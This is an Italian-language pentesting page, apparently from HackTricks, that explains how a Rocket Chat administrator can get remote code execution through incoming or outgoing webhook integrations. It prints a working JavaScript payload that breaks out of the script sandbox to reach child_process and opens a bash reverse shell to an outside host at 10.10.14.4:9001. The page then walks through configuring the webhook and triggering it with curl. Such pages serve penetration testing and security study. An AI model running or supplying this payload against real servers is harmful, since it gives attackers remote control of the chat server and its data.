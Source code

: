 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}


## RCE

Se sei un admin all'interno di Rocket Chat puoi ottenere RCE.

- Vai su **`Integrations`** e seleziona **`New Integration`** e scegli uno qualsiasi: **`Incoming WebHook`** o **`Outgoing WebHook`**.
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- Secondo la [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), entrambi usano ES2015 / ECMAScript 6 ([fondamentalmente JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) per elaborare i dati. Quindi otteniamo una [rev shell per javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) come:
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- Configura il WebHook (il canale e il post come nome utente devono esistere):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Configura lo script WebHook:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Salva le modifiche
- Ottieni l'URL del WebHook generato:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Chiamalo con curl e dovresti ricevere la rev shell


{{#include ../../banners/hacktricks-training.md}}
